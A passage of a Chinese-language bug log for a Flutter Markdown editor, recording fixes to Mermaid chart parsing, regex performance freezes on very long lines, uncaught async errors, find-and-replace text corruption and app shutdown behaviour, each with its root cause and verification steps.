|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 怎么发现的 | 承 BUG-024 的排查：19 种图表各写一份完整样例后，再逐图**核对载荷条目数与源文是否一致**（扇区数、任务数、轴数、关系数……共 40 项）。饼图那条对上了扇区数，却对不上标题 |
| 现象 | `pie title 占比` 这样把标题写在表头行上时，标题为 `null`，图上不显示；写成两行（`pie` 换行 `title 占比`）才有 |
| 为什么要紧 | **mermaid 官方文档的第一个饼图例子就是 `pie title Pets adopted by volunteers`** —— 这是大多数人复制粘贴的写法 |
| 根因分析 | 表头行只被扫了一个 `showdata`，标题的识别放在「第二行起」的循环里，表头行上的 `title …` 从来没被看过 |
| 修复方案 | 表头行按 `pie` → 可选 `showData` → 可选 `title …` 逐段剥离。大小写不敏感，且用原始大小写取标题文本 |
| 涉及文件 | `lib/ui/editor/mermaid/parser/pie_chart_parser.dart`、`test/ui/editor/mermaid/mermaid_parser_test.dart` |
| 验证方式 | 10 种写法对照期望（表头标题、独立行标题、`showData` 与两者组合、大小写、标题文本里含 "title" 字样、两处都写时以独立行为准、无扇区仍返回 null）；2065 个截断用例重跑仍零异常；新增 4 条测试 |
| 同批核对下来没问题的 | 其余 18 种图的条目数与源文**全部一致**（甘特 1 段 2 任务、桑基 3 链接 4 节点、块图 3 块 1 箭头、C4 2 节点 1 关系、雷达 3 轴 1 曲线 3 值、xy 3 类目 2 系列、旅程 1 段 2 任务、git 2 分支、脑图 2 子节点、时序 3 参与者 1 个 box 分组、类图 3 类含属性方法、ER 2 实体、需求 1+1+1、流程图 5 节点 4 边 1 子图……） |
| 顺带确认的一处既知缺口 | timeline 的 `section` 未支持，且 `section` 行会被当成上一个事件的描述画出来。**已在同一批里修掉**，见 PRD 的 FEAT-009 |

---

### BUG-026 甘特图 `until` 画成零长条，`after a1 a2` 多依赖失效

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 怎么发现的 | 承 BUG-025 那一轮「逐图核对载荷与源文」的思路，把甘特的每种依赖写法单独试了一遍 |
| 现象一（`until`） | `B :b1, 2026-01-01, until a1` 的 `until a1` 掉进时长槽位，解析不出任何时长，画成一根**零长度的条** |
| 现象二（多依赖） | `C :after a1 a2, 3d` 把 `"a1 a2"` 整串当成**一个 id**，查不到任何任务，起始日期于是悄悄退回「紧接源文里上一个任务之后」。上一个任务恰好是被依赖者时结果碰巧正确，一旦引用的不是相邻任务就错 |
| 根因分析 | `after` 的解析写死了 `substring(6)` 取整段余下文本作为单个 id；`until` 则**根本没有分支** |
| 修复方案 | 抽出 `_referencedIds(spec, keyword)` 按空白切出多个 id，配 `_latestEnd`（`after` 取被依赖者中最晚的结束日 +1 天）与 `_earliestStart`（`until` 取被引用者中最早的开始日 −1 天，日期区间是闭区间所以停在前一天）。`until` 在时长槽位统一处理，于是 `:until x`、`:id, until x`、`:after a, until b`、`:id, after a, until b` 四种写法都成立 |
| 边界处理 | 引用的 id 不存在时不改动日期（`until` 则退化为与开始日同一天），保证不会算出结束早于开始的倒挂条 |
| 涉及文件 | `lib/ui/editor/mermaid/parser/gantt_parser.dart`、`test/ui/editor/mermaid/mermaid_parser_test.dart` |
| 验证方式 | 10 种依赖写法逐一核对**具体日期**（不只是「非空」）；2065 个截断用例重跑仍零异常；新增 6 条测试，断言先用真实源码跑通再落库 |

---

### BUG-027 showcase 图表数量断言没跟上 fixture 新增块（CI 变红）

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P3 |
| 状态 | 已修复 |
| 现象 | 往 `showcase.md` 补了三份图（分组时间线、`pie title` 表头式、4 空格看板）之后，CI 的 Test 步骤失败：`Expected: <28> Actual: <31>` |
| 根因分析 | `fixtures_showcase_test.dart` 对图表块数量下了**硬编码断言**，共用 fixture 一加内容就被动失效 |
| 修复方案 | 改为 31，注释里的「twenty-eight」一并跟上 |
| 教训（已写入长期记忆） | 改任何共用 fixture 之前，先 grep 一遍读它的测试里有没有基于数量的断言。这类失败本地看不出来（本机不跑 flutter test），要赔一整轮 CI |

---

### BUG-028 配置保存失败会抛出未捕获的异步异常

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | **P1** |
| 状态 | 已修复 |
| 怎么发现的 | CI 上 `tab_reload_test` 报「测试已结束后才失败」：tearDown 删临时目录时，持久化侧边栏文件列表的写入还在队列里，`rename` 撞上不存在的目录抛异常。顺着栈往上看才发现这不是测试独有的问题 |
| 现象 | 配置写不进磁盘时，异常从 `ConfigService._write` 一路抛出到调用方 |
| 为什么是 P1 | `updateConfig` 在**十来处是即发即忘**调用的（设置页的每个开关、分栏比例、侧边栏文件列表），没有任何一处 `await`。于是写入失败变成一个**远离用户操作现场的未捕获异步异常**。真实触发条件不罕见：配置目录被外部删除、磁盘写满、Windows 上杀软占住 `.tmp` 文件、配置放在掉线的网络盘上 |
| 根因分析 | `_write` 没有任何错误处理；`_drain` 的 `try/finally` 只负责清 `_writing`，不拦异常 |
| 修复方案 | `_drain` 里逐次捕获写入失败，队列继续排空，失败记到 `lastSaveError`。下一次保存会重新排队，所以一次失败不是永久性的 |
| 顺带新增 | `pending`：应用里没人 `await save`，这是唯一能确知已落盘的方式。`tab_reload_test` 的 tearDown 改成 `await pending`，替掉那个在 CI 负载下不够用的固定 200ms 延时 —— **时间型等待本身就是不确定的**，换成等待写入这件事本身 |
| 涉及文件 | `lib/core/config/config_service.dart`、`test/core/config/config_service_test.dart`、`test/providers/tab_reload_test.dart` |
| 验证方式 | 用真实源码在沙盘跑 5 个场景：正常保存 / 目录位置被文件占住 / `pending` 后确已落盘 / 失败后再保存能恢复并清空记录 / **CI 上那个「目录中途消失」的原始竞态**；新增 3 条仓库测试 |
| 暂未做（明确记录） | 失败没有向用户提示。当前没有错误通道，加提示要动 Riverpod 到 UI 的一整条链。`lastSaveError` 留作可检查点，将来接提示可直接读 |

---

### BUG-029 预览里点链接失败会抛出未捕获异常，且没有任何提示

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 怎么发现的 | 承 BUG-028，把「返回 Future 却没人 await」的调用点在全仓扫了一遍（脚本先收集所有返回 `Future` 的方法名，再找没有 `await` / `.then` 的调用行），逐个看方法体里有没有 try |
| 扫描结果 | 15 个即发即忘的调用点里，`_save`、`_performAutoSave`、`_saveAsImage`、`_preventCloseWhileUnsaved` 内部已有保护；`listDirectory` 已捕获 `FileSystemException`，所以 `_refreshTree` 安全；`checkForUpdate` 整体包了 try 并用 `reachable` 表达失败。**只有 `_openLink` 完全裸奔** |
| 现象 | 预览里点一个链接，如果打不开，异常会以未捕获异步错误的形式冒出来，界面上**没有任何反馈** |
| 三条会抛的路径（均已实测） | ① `Uri.parse('http://[bad')` 与 `Uri.parse('https://x.com:notaport')` 抛 `FormatException` —— 都是文档里很正常的笔误；② `launchUrl` 在桌面没有注册该协议处理程序时抛（裸 Linux、Windows 上协议未关联）；③ 相对路径分支里读邻近文件可能因权限失败 |
| 修复方案 | 拆成 `_openLink`（外层 try）+ `_followLink`（实际动作）。`Uri.parse` 换 `Uri.tryParse` 并判空，`launchUrl` 返回 false 也视为失败。失败时弹 SnackBar 提示 |
| 新增文案 | `linkOpenFailed`，**12 种语言全部给了译文**，`.arb` 与已入库的生成代码同时更新（pt_BR 走 `AppLocalizationsPtBr` 子类覆写）。每份 arb 的 diff 只有 +1/−1 行 |
| 顺带补的守卫 | 新增 `test/core/i18n/l10n_coverage_test.dart`：① 12 种语言键集与英文完全一致；② 每个键在生成的抽象类里有声明；③ 每种语言的生成代码都实现了每个键；④ 没有哪种语言整体是英文原文。**BUG-020（十种语言缺 12 条文案、界面直接显示英文）这类问题今后会在 CI 上当场暴露**。带占位符的消息生成的是方法而非 getter，两种写法都算数 |
| 涉及文件 | `lib/ui/editor/markdown_renderer.dart`、12 份 `app_*.arb`、12 份 `app_localizations*.dart`、`test/core/i18n/l10n_coverage_test.dart`（新增） |
| 验证方式 | 10 个 href 实测确认哪些会让 `Uri.parse` 抛、`Uri.tryParse` 对同样输入返回 null；12 份 arb 改写后逐份 `json.loads` 复验，并逐键比对**原有条目一个没少、一个没改**；新测试的五条断言先用等价的 Python 逻辑在真实文件上跑通（含发现「参数化消息生成的是方法不是 getter」这个坑）再落库 |

---

### BUG-030 源码编辑器把代码块内部的内容也当 Markdown 上色

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 怎么发现的 | 顺着「刚改过的构造在源码编辑器里是否也一致」这条线读高亮器，发现它是**逐行无状态**的 —— 那就意味着它不可能知道自己在不在围栏里 |
| 现象（均已实测） | 代码块内部：`**not bold**` 被涂成粗体色、`[a](b)` 涂成链接色、`# 这是注释不是标题` 涂成标题色**并加粗**、`> not a quote` 涂成引用色；`a * b * c` 里的 `* b *` 被当成斜体 |
| 为什么要紧 | 写代码的项目里，Markdown 文档几乎必然含代码块。这是一眼可见的错误着色 |
| 根因分析 | 高亮按行切分是为了让 `IncrementalMarkdownHighlighter` 复用未改动的行；代价是单行看不出自己处在围栏内。原来只有「这一行本身是 ``` 开头」才走代码样式 |
| 修复方案 | 新增 `fenceStates(lines)` 一次性算出每行**开始时**是否在围栏内，`highlightLine` 增加 `inCodeFence` 参数。围栏规则按 CommonMark：0–3 空格缩进、三个以上反引号或波浪；闭合必须同字符、不短于开头、且不带信息串 |
| 增量缓存的连带修正（关键） | 缓存靠「文本相同就复用」，但打出一个 ``` 会让下方**每一行文本都没变、画法却全变**。因此缓存同时记住每行的围栏状态，前后缀复用要求**文本与状态都一致**。少了这一步，开围栏后下方不会重算 |
| 性能（本机实测，1.4 MiB / 85363 行） | 第一版用正则做围栏扫描：单次按键 57.29 → **78.75 ms**，回退 37%，对「支持大文件」不可接受。改成手写扫描（先看首个非空格字符是不是 `` ` `` 或 `~`，绝大多数行两次比较就退出）后：围栏扫描 33.5 → 8.9 ms，单次按键 **59.45 ms**，净开销约 2 ms；首次构建反而从 406 → 304 ms（代码块每行现在只产生一个 span） |
| 涉及文件 | `lib/ui/editor/syntax_highlighter.dart`、`test/ui/editor/syntax_highlighter_test.dart` |
| 验证方式 | **增量与一次性逐字符对拍**：把一份含围栏的文档逐字符敲一遍（每个前缀都比），再做插入/删除开闭围栏的五步编辑，外加 11 种围栏形态 —— 每一步都要求增量结果与一次性结果**完全一致**且跨度和等于原文长度，全部通过；17 条断言先用真实源码跑通再落库；新增 8 条仓库测试 |
| 顺带的性能改进（超出修 bug 的范围） | 拆解按键耗时后发现 `flatten` 占 32 ms —— 它每次都要给 85363 行各拼一个新字符串。把「带换行的行内容」也纳入增量缓存（刻意做成与行位置无关，末行单独处理），单次按键 **59.45 → 44.60 ms**，比**改动前的 57.29 ms 还快 22%** |
| 已知未覆盖 | 四格缩进的代码块（不是围栏）仍按普通行着色；行内 `` ` `` 的配对也仍是逐行的。`split('\n')` 本身占 22 ms，要去掉得改接口签名，未做 |

---

### BUG-031 超长单行让源码编辑器卡死数十秒

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | **P0** |
| 状态 | 已修复 |
| 怎么发现的 | 修完 BUG-030 顺手压测「大文件」的另一种形态：不是行多，而是**单行长**（压缩 JSON、CSV、粘贴进来的一大段） |
| 现象（本机实测，修复前） | 一行 6 万个 `[` → **45.2 秒**；`` 重复 → 12.6 秒；`[a](` 重复 → 11.1 秒。全程 UI 冻结 |
| 根因一：逐位置重扫（二次方） | `_highlightInline` 每前进一步就对**全部 7 个模式**重新 `allMatches(text, pos)` 找最近匹配。匹配数 m × 行长 n × 模式数 —— 6 万字符、1.2 万个匹配就是 7×10⁸ 次扫描 |
| 根因二：正则灾难性回溯 | `\[([^\]]+)\]` 遇到一行没有 `]` 的 `[`：每个起点都把 `[^\]]+` 吃到行尾再一个字符一个字符退回来，O(n²)。`\(([^)\n]*)\)` 对 `[a](` 重复同理 |
| 修复一 | 记住每个模式「下一处匹配」，`pos` 只前进所以缓存仍然有效；某个模式在余下文本里再无匹配就永久跳过。扫描从 O(m·n·p) 降到约 O(n·p+m) |
| 修复二 | 链接/图片的两半都换成**解析器已经在用的平衡写法**：文本部分 `((?:[^\[\]]｜\[[^\[\]]*\])*)`，URL 部分 `((?:[^()\s]｜\([^()]*\))*)`。四种候选写法实测对比，只有这一种同时做到「病态输入 5 ms」和「URL 里带括号仍能识别」 |
| 连带修正的行为 | 高亮器此前与解析器不一致：`[see [1] here](u)` 不高亮（解析器认）、`…/wiki/A_(b)` 靠 `[^)]` 侥幸认对。现在两边用同一形状，都认。代价是 `[a](b c)`（URL 含空格）不再高亮 —— CommonMark 本来就要求这种写法用尖括号，解析器也不认 |
| 修复后（同一台机器） | 18 种病态输入**全部在 32 ms 以内**，最坏那条从 45202 ms 降到 10.3 ms（约 4400 倍） |
| 涉及文件 | `lib/ui/editor/syntax_highlighter.dart`、`test/ui/editor/syntax_highlighter_test.dart` |
| 验证方式 | 18 种超长单行逐一计时并校验**跨度和等于原文长度**；8 种链接写法核对高亮范围；增量与一次性对拍（逐字符输入 + 增删行 + 末行边界）全部仍然一致；新增 6 条仓库测试（含 2 秒的性能守卫，比实测值宽两个数量级） |

---

### BUG-032 超长单行让解析器卡死一分钟（打开文档即冻结）

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | **P0** |
| 状态 | 已修复 |
| 怎么发现的 | BUG-031 修完，把**同一批 27 种超长单行**原样打到解析器上。此前只压测过其中一部分，覆盖不到今天新加的 `[a](`、`\]\[([^\]]*)\]`：一行没有 `]` 的 `[`，每个起点都把 `[^\]]+` 吃到行尾再逐字符退回，O(n²) |
| 根因二 | 图片套链接（README 徽章）分支 `\[!\[([^\]]*)\]…`：`[![` 在 `![![![…` 里每两个字符就能匹配一次前缀，随后的 `[^\]]*` 同样逐字符退回 |
| 修复方案 | 两处都换成**同一文件里链接分支已经在用的平衡写法** `((?:[^\[\]]｜\[[^\[\]]*\])*)`。内层是非捕获组，**捕获组数量不变** —— 这条至关重要：那个巨型交替里每个分支的组号是手工编排的，多一个组会把后面全部打乱 |
| 修复后 | 全 `[` 51017 → **55 ms**（约 930 倍）；`![` 重复 22056 → **42 ms**（约 525 倍）。27 种输入全部在 65 ms 以内 |
| 涉及文件 | `lib/services/markdown_parser.dart`、`test/services/markdown_parser_test.dart` |
| 验证方式 | 61 条语料基线对拍**零差异**（两次改动各一轮）；27 种超长单行逐一计时；徽章解析、引用式链接解析各自复算（确认组号没错位）；十一个历史断言脚本、五份真实文档块级往返、行覆盖不变式、showcase 73 块三项不变式全部通过；新增 6 条测试 |
| 一条方法上的教训 | 「压测过了」不等于「压测集够用」。今天给高亮器新造的 27 条输入里，有两条是解析器此前从没见过的形态，一打就是分钟级冻结。**同一套对抗性输入应当在所有同类组件上都跑一遍** |

---

### BUG-033 图表块里的长行让饼图卡 14 秒、ER 图卡 27 秒

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 怎么发现的 | 照 BUG-032 的教训执行：把同一套对抗性输入推广到**所有吃用户文本的组件**。这次是 19 种图表 × 11 种病态行（3 万个 `[` / `|` / `(` / `{` / `"` / `:` / `,`、3 万个 `-->`、超长单词、`[a](b` 重复、CSV），共 209 个组合 |
| 现象 | `pie` 块里任何一行 3 万字符的内容 → **约 14 秒**（与内容无关，只要没冒号）；`erDiagram` 块里 3 万个 `[` → **27.2 秒**；`erDiagram` + `[a](b` 重复 → 5.9 秒 |
| 根因一（饼图） | 扇区的无引号写法 `([^:]+):\s*([\d.]+)` **没有锚点**：一行没有冒号时，引擎从每个位置都试一遍，每次把 `[^:]+` 吃到行尾再逐字符退回，O(n²) |
| 根因二（ER 图） | 实体别名 `^(.+?)\[\s*"?(.*?)"?\s*\]$` 有**两个惰性量词互相试探**，一行 `[` 让它们组合爆炸 |
| 修复方案 | 饼图那条加 `^` 锚点（一行就是一个扇区，本来也只该从行首匹配），起点从 n 个变成 1 个；ER 那条把两段都换成不含方括号的字符类 `^([^\[\]]+)\[\s*"?([^\]]*?)"?\s*\]$` |
| 修复后 | 209 个组合**全部在 500 ms 以内**；两条正则在 6 种正常写法上的匹配结果与修改前**逐字段一致**（双引号/单引号/无引号/紧凑/小数、别名带引号/不带引号/带空格/无别名） |
| 涉及文件 | `lib/ui/editor/mermaid/parser/pie_chart_parser.dart`、`parser/er_diagram_parser.dart`、`test/ui/editor/mermaid/mermaid_parser_test.dart` |
| 验证方式 | 209 个「图表类型 × 病态行」组合逐一计时；两条正则的新旧写法在正常输入上逐字段对拍；2065 个截断用例重跑仍零异常；19 种图表的载荷条目数复核；新增 3 条测试 |
| 排查中确认不是缺陷的一条 | 一度以为 ER 的 `ENTITY["标签"]` 别名解析了却没人用（全仓 grep `.alias` 只在解析器里命中）。实际是模型用 `displayName` getter 暴露的（`alias ?? name`），布局与画笔走的是它。**不是缺陷，不改**；顺带确认了别名在修改前后行为完全一致 |

---

### BUG-034 整词搜索每比一个字符就新建一个正则

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 怎么发现的 | 继续按 BUG-032 的教训把压测推到还没覆盖的组件。搜索服务在常规输入上都很快，只有一处异常：**整词**搜索 1.2 MiB 的重复文本要 770 ms |
| 根因分析 | `_isWordChar` 的实现是 `RegExp(r'[a-zA-Z0-9_]').hasMatch(char)` —— **每次调用都新建并编译一个正则**。它在每个候选命中处被问两次（前后各一次），60 万个被拒命中就是 120 万次正则编译 |
| 修复方案 | 直接比码位。ASCII-only 的语义**一字不改** —— 那是有意的设计（不打空格的文字没有词边界可找，见该函数原有注释） |
| 等价性验证 | 把新旧两个实现对 **BMP 全部 65536 个码位**逐一对拍：**零不一致**；空串两者都是 false |
| 修复后（同一台机器） | 重复文本整词搜索 770 → **35 ms**（22 倍）；中文整词搜索 117 → 53 ms；英文整词搜索 59 → 24 ms |
| 涉及文件 | `lib/services/text_search_service.dart`、`test/services/text_search_service_test.dart` |
| 验证方式 | 65536 个码位对拍；10 种搜索场景计时（普通/整词/区分大小写/正则/中文/重复字符）；6 组整词边界端到端复算；新增 2 条测试（含 2 秒性能守卫） |
| 同批扫描的其余结论 | 全仓找「热路径里新建 RegExp」：`source_editor` 的 `clearFormatting` 那几条是**一次用户操作构造一次**，不在热路径，不动。`applyLinePrefix` 里的 `^\s*` 只是与同文件另两条 `static final` 写法不一致，顺手统一（**不是性能问题**，单行调用）。搜索服务的 `useRegex` 分支用的是**用户自己写的正则**，其复杂度不由我们决定，已有 try/catch 兜住非法模式 |
| 同批压测「确认没问题」的一项 | 大型图表的**布局算法**：链式 / 星形 / 网格三种拓扑，规模到 2000 节点 4000 边，Dagre 与 Sugiyama 两个引擎耗时均在 20–84 ms，随规模基本线性。**没有缺陷，不改**，记录以免重复排查 |

---

### BUG-035 图表工具栏的每个按钮都要迟滞约 300 毫秒才响应

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 怎么发现的 | FEAT-010 的 widget 测试失败：点了「编辑源码」按钮后编辑框没出现。第一版测试只报 `Bad state: No element`，看不出是「按钮没触发」还是「开了又立刻关」。**把断言改成两段**（先断言工具栏已消失，再断言编辑框存在）之后，CI 直接告诉我工具栏还在 —— 按钮的 `onPressed` 根本没跑 |
| 根因分析 | 预览给每个块套了一个 `onDoubleTap` 的 `GestureDetector`。单击时这个识别器会**占住手势竞技场直到双击超时**（约 300 ms）才让出，按钮要等它让出才响应。代码里任务列表那条注释早就写明了这个机制（「每个复选框会先僵 300 ms」），只是没人想到图表工具栏也在同一条路径上 |
| 影响范围 | 不只是新加的「编辑源码」：**全屏、另存为、复制源码三个原有按钮同样迟滞**，一直如此 |
| 修复方案 | 图表块不再套双击识别器 —— 判据与任务列表那条并列写在一起。图表现在有自己的「编辑源码」按钮，比任务列表更没有保留双击的理由 |
| 涉及文件 | `lib/ui/editor/markdown_renderer.dart`、`test/ui/editor/markdown_renderer_edit_test.dart` |
| 验证方式 | 测试**故意只 pump 一帧**再断言编辑框已出现 —— 这一帧就是「按钮立即响应」的证明；若识别器回来，这条测试立刻失败 |
| 一条方法上的教训 | 本机跑不了 widget 测试，一轮 CI 约 10 分钟。**第一版断言写成 `tester.widget<TextField>(...)`，失败时只抛 `Bad state: No element`，白费一轮**。换成分段的 `expect(..., findsNothing/findsOneWidget)` 之后，同样一轮 CI 就把根因指出来了。远程验证时，断言要按「能区分假设」来写，不是按「最简洁」来写 |

---

### BUG-036 保存后 300 毫秒内的外部改动会被静默丢弃

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | **P1**（会覆盖别的程序写入的内容） |
| 状态 | 已修复 |
| 怎么发现的 | 复核「自动保存」与「磁盘监视」这两条并发路径的交互 —— 两者各自都对，凑在一起有个窗口 |
| 现象 | 自动保存写完文件后，**300 毫秒内**其他程序对同一文件的改动会被完全忽略。标签页停在旧内容上，用户下一次保存就把对方的改动覆盖掉 |
| 真实触发场景 | 保存时自动跑格式化工具（prettier / dprint 之类）是非常常见的配置；`git checkout`、同步盘回写也在这个窗口内 |
| 根因分析 | `TabNotifier` 用一个 `_selfWritten` 集合记「这个路径是我自己写的」，收到变更事件就 `remove` 并直接返回。而监视器的去抖是**每来一个事件就重启计时**（`open_document_watcher._onEvent`），所以「我方保存 + 格式化工具改写」只会合并成**一个**通知 —— 这个通知被那面旗子吃掉了 |
| 修复方案 | 删掉这面旗子，改为**比较内容**：读回文件，与标签页内容相同就返回。自己的保存同样会被跳过（字节本来就一样），但合并事件里夹带的外部改动能被认出来 |
| 代价（如实记录） | 此前自己的保存**不读文件**，现在会读一次并解码。实测 10 MiB 中文解码约 69 ms，加上换行规范化与探测，一次保存后约多 100–150 ms，且解码目前在主 isolate 上。这只影响很大的文件；换来的是不再覆盖别的程序写入的内容，**这个取舍是有意的**。若将来要优化，方向是把这条路径的解码也搬进 isolate（打开文件那条路径已经这么做了），而不是把旗子加回来 |
| 为什么内容比较是充分的 | `saveDocument` 写的就是 `tab.content`（经换行符与编码转换），`readFileWithLineEnding` 读回时把这两项还原，所以自己的保存读回来必然逐字节相等 |
| 涉及文件 | `lib/providers/tab_provider.dart`、`test/providers/tab_reload_test.dart` |
| 验证方式 | 新增一条端到端测试，把真实时序跑出来：开启自动保存（延时 100 ms）→ 编辑 → 等自动保存落盘 → **在去抖窗口内**由外部改写 → 断言标签页取到的是外部内容 |
| 一处流程失误（如实记录） | 这处代码改动被 `git add -A` **误扫进了 BUG-035 那一笔提交**，而那条提交信息完全没提它。测试与本文档是随后补上的。教训：提交前应当 `git status --short` 逐个确认，不要对混着多处在改的工作区直接 `add -A` |
| 同批排查「查完确认不是缺陷」的一项 | 扫了全部 19 个画笔里分母非常量的除法（29 处）。除两处外都已有零值保护。<br>① `mermaid_painter._drawDashedLine` 的 `length` 没保护 —— 但随后的 `while (currentLength < length)` 在 length 为 0 时根本不进循环，NaN 到不了画布。**当前无害**，加了一行 `if (length == 0) return;` 以免将来改动循环时破功。<br>② 雷达图 `(value - min) / (max - min)` 在 `max N` + `min N` 时分母为 0。一度以为会算出 NaN 让曲线消失 —— **实测发现是我判断错了**：Dart 里 `NaN.clamp(0.0, 1.0)` 返回的是 **1.0** 而不是 NaN，曲线一直画在满半径处。改写成显式的三元判断，**修复前后的绘制指令逐条相同**（用桩类型跑真实画笔、记录每条 Canvas 指令对拍确认），只是不再依赖 `num.clamp` 这个读起来像巧合的细节 |

---

### BUG-037 打开小文件也要先起一个 isolate，白等一次快照加载

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 怎么发现的 | 用户反馈「启动打开文件从不到 1 秒变成 2 秒多」。在等 Windows 日志期间，把能在本机量的都量了一遍，这是其中一项 |
| 现象 | 无论文件多小，读取都走 `compute()`。而启动时打开的第一个文件，正好是进程里**第一次** `compute` —— 那一次要启动 isolate 并加载应用快照 |
| 本机实测 | 5 KB 文件：首次 `Isolate.run` **37 ms**，之后每次约 0.6 ms；主线程直接读 **0.08 ms**。Flutter 的 `compute()` 比 CLI 下的 `Isolate.run` 更重（要加载应用快照），Windows release 上通常 100–300 ms |
| 阈值怎么定的 | 逐档量过：6 KiB / 70 KiB / 563 KiB / 2.2 MiB / 11 MiB 直接读分别是 1.06 / 0.21 / 0.44 / 1.39 / **7.22 ms**，都在一帧（16.7 ms）以内。定在 **512 KiB**：这个尺寸下直读绝无风险，更大的文件在冷缓存或慢盘上可能真的阻塞，仍交给 isolate 保住帧率 |
| 修复方案 | 抽出 `_readDocument(path)`：先取文件长度，≤512 KiB 直接在主 isolate 读，更大的才 `compute`。取长度失败时按原样交给 `compute`，让读取本身去报错 |
| 顺带消除的重复 | 这段读文件逻辑在 `home_screen.dart` 里**有两份**（启动打开、拖放/第二实例打开），此前是逐字复制的。现在都调用同一个 `_readDocument` |
| 本地分析当场抓到的一处 | 第一版把 `return file.readAsBytes();` 写在 `try` 里，`dart analyze` 报 `unawaited_return_in_try_block` —— 未 await 的 Future 抛出的异常不会被那个 `catch` 接住。改成先在 try 里只取长度，读取放到 try 外，让失败照常传到调用方（那里会移除已创建的标签页） |
| 这不是那个回退的原因 | `compute()` 读文件 **v1.2.3 就有**，所以它解释不了「1.2.3 不到 1 秒、现在 2 秒多」这个差值。这是绝对值上的浪费，独立成立 |
| 涉及文件 | `lib/ui/screens/home_screen.dart` |
| 验证方式 | 五档文件尺寸的直读 vs isolate 耗时实测；本机 `dart analyze --fatal-infos lib test` 通过 |

---

### BUG-038 正则「全部替换」会改动界面从未显示为匹配的位置，毁坏文字

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | **P0**（直接破坏用户文档） |
| 状态 | 已修复 |
| 怎么发现的 | 挑「下标算错就会毁文字」的纯逻辑来查。查找替换的**非正则**分支是按已匹配区间从后往前拼接（正确），**正则**分支却直接 `text.replaceAll(regex, replacement)` —— 两条路各找各的匹配 |
| 根因分析 | 界面上显示的匹配数来自 `TextSearch`，它**有意跳过零长匹配与重叠**；`String.replaceAll` 不跳。凡是「可以匹配空」的模式，两者结果就分道扬镳 |
| 实测的三个破坏案例 | `axbxc` 找 `x*`：界面说 **2 处**，实际写成 `YaYYbYYcY`（六处插入）；<br>`abc` 找 `a?`：界面 1 处，写成 `YYbYcY`（应为 `Ybc`）；<br>`abc` 找 `.*`：界面 1 处，写成 `YY`（应为 `Y`）。<br>`.*`、`\d*`、`\s*` 都是用户会写的模式 |
| 修复方案 | 删掉正则特例，两种搜索都改成「替换界面数过、也高亮过的那些区间」，从后往前拼接。顺带把这段逻辑抽成 `FindReplaceBar.replaceRanges`，只此一份 |
| 连带修正的测试问题 | 测试文件里**自己写了一份**同样的拼接逻辑来模拟替换 —— 也就是说这些测试一直在验证它自己的副本，生产代码怎么写它都不知道。现在改为直接调用 `replaceRanges` |
| 与本会话主线的关系 | 这是第 N 次「同一行为写了两遍然后漂移」。这次是**三份**：正则分支、非正则分支、测试里的副本 |
| 涉及文件 | `lib/ui/widgets/find_replace_bar.dart`、`test/ui/widgets/find_replace_bar_test.dart` |
| 验证方式 | 7 种模式在两条路径上逐一对拍（先证实差异存在，再证实修复后一致）；本机 `dart analyze --fatal-infos lib test` 通过；本机 `flutter test` 该文件 13 条全过；新增 4 组测试 |
| 本地分析又当场抓到一处 | 抽出静态方法后，State 里的调用漏了类名限定 —— 与今天早些时候松散列表那次是同一个坑。本地 27 秒发现，没赔 CI |

---

### BUG-039 关闭窗口后进程卡住不退（目录监视线程未停）

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 怎么发现的 | 用户反馈「关闭窗口还会卡一段时间才关」。加了启动/关闭埋点后拿到日志 |
| 日志给出的定位 | `close requested` → `window geometry saved`（+47 ms）→ `window destroyed`（+9 ms）。**Dart 侧关闭处理总共只有 56 ms**，卡顿发生在 `destroy()` 之后的原生退出阶段 |
| 关键线索是「缺了什么」 | 日志里**没有** `tab notifier dispose begins`。也就是说 Riverpod 在窗口销毁时根本不会拆卸 provider —— 进程直接结束。于是目录监视一直活到退出，Windows 上 `ReadDirectoryChangesW` 的监视线程在 VM 关闭时才被拆，把退出拖住 |
| 修复方案 | 新增 `TabNotifier.stopWatchingFiles()`，在 `windowManager.destroy()` **之前**显式调用：取消磁盘事件订阅、dispose 监视器、取消所有自动保存定时器 |
| 涉及文件 | `lib/providers/tab_provider.dart`、`lib/ui/screens/home_screen.dart` |
| 验证方式 | 本机 `dart analyze --fatal-infos lib test` 通过。**最终确认要看用户在 Windows 上的复现**：修复后日志应出现 `stopping file watches` / `file watches stopped` 两行，且关窗后进程立即退出 |

---

### BUG-040 菜单「退出」直接杀进程，未保存的修改全部丢失

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | **P0**（直接丢失用户尚未保存的工作） |
| 状态 | 已修复 |
| 怎么发现的 | 修 BUG-039 时顺手核对「所有退出路径是否都停了监视」，`grep` 出四处，其中一处是 `exit(0)` |
| 现象 | 点标题栏的 ✕ 会弹出「有未保存的修改」并让人选择；点**文件 ▸ 退出**则是 `exit(0)`，进程当场结束 —— 不提示、不保存、修改全丢 |
| 连带丢失的还有 | 窗口几何（大小/位置/最大化状态）不会被记录，下次启动回到默认；BUG-039 新加的停监视也被绕过 |
